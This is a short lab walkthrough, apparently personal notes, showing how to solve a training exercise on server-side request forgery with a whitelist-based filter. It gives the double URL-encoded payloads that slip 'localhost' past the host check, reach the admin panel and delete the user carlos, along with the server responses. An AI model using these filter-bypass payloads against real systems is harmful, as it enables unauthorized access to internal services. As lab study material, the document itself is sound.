


# SSRF with whitelist-based input filter

## This lab has a stock check feature which fetches data from an internal system.

## To solve the lab, change the stock check URL to access the admin interface at `http://localhost/admin` and delete the user `carlos`.

## The developer has deployed an anti-SSRF defense you will need to bypass.

note:
http://stock.weliketoshop.net:8080/product/stock/check?productId=1&storeId=1
control + u for url encoded
http%3a//stock.weliketoshop.net%3a8080/product/stock/check%3fproductId%3d1%26storeId%3d1
ctrl + shift =u url decoded

---

### step 1

stockApi=http://username#@stock.weliketoshop.net
respoonse => "External stock check host must be stock.weliketoshop.net"

ctrl + u => stockApi=http://username%23@stock.weliketoshop.net
response => "External stock check host must be stock.weliketoshop.net"

again ctrl + u => stockApi=http://username%2523@stock.weliketoshop.net
response => HTTP/1.1 500 Internal Server Error

remove http://username add http://localhost
stockApi=http://localhost%2523@stock.weliketoshop.net
response => 200 ok

stockApi=http://localhost%2523@stock.weliketoshop.net/admin
response 200 ok

stockApi=http://localhost%2523@stock.weliketoshop.net/admin/delete?username=carlos

send request => 302 Found

lab solved
